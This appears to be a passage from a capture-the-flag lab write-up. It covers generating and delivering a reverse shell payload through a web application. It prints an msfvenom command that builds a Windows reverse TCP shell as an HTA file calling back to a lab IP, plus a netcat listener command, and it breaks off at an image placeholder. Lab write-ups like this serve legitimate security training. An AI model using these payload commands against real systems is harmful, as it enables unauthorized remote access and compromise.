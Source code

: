 In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on thisÂ [website](https://web.archive.org/web/20220607215637/https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).


### Practical
---

Let's go with the `HTA` version:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.136.34 LPORT=443 -f hta-psh -o thm.hta
```

Once we generate the `.hta` file, we can do:

```
sudo nc -lvnp 443
```


Now, let's go to the target site:

```
http://10.10.118.217:8080/
```


We need to start a python server to be able to host the file, once we start the file, we can download it into the target machine with:

![Pasted image 20250512151130.png](../../../IMAGES/Pasted%20image%2020250512151130.png)
